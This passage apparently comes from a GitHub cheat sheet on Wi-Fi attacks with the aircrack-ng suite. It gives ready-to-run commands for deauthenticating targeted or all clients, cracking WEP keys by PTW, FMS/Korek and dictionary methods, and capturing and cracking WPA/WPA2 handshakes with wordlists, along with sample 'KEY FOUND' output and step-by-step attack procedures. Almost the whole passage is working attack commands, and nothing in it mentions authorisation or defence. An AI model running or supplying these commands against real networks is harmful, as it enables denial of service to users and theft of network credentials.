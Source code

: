 **Deauthentication Attack**
```bash
# Deauth specific client
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# Broadcast deauth (all clients)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```

#### Aircrack-ng (Key Cracking)

**WEP Cracking**
```bash
# PTW attack (default, requires ARP packets)
sudo aircrack-ng capture.cap

# Classic FMS/Korek attack
sudo aircrack-ng -K capture.cap

# Dictionary attack on WEP
sudo aircrack-ng -w wordlist.txt capture.cap
```

**WPA/WPA2 Cracking**
```bash
# Dictionary attack
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture.cap

# Specific network selection
sudo aircrack-ng -w wordlist.txt -e "ESSID" capture.cap
```

**Expected Successful Output:**
```
KEY FOUND! [ password123 ]
Master Key     : CD D7 9A 5A CF B0 70 C7 E9 D1 02 3B...
Transient Key  : 33 55 0B FC 4F 24 84 F4 9A 38 B3 D0...
```

### Attack Methodologies

#### WEP Attack Process
1. **Capture IVs**: `airodump-ng -w wep_capture --bssid TARGET -c CHANNEL wlan0mon`
2. **Fake Authentication**: `aireplay-ng -1 0 -a TARGET -h YOUR_MAC wlan0mon`  
3. **Generate Traffic**: `aireplay-ng --arpreplay -b TARGET -h YOUR_MAC wlan0mon`
4. **Crack Key**: `aircrack-ng wep_capture.cap`

#### WPA/WPA2 Attack Process
1. **Capture Handshake**: `airodump-ng -w wpa_capture --bssid TARGET -c CHANNEL wlan0mon`
2. **Force Handshake**: `aireplay-ng -0 5 -a TARGET -c CLIENT wlan0mon`
3. **Verify Handshake**: Look for "WPA handshake" in airodump-ng output
4. **Crack Password**: `aircrack-ng -w wordlist.txt wpa_capture.cap`

---
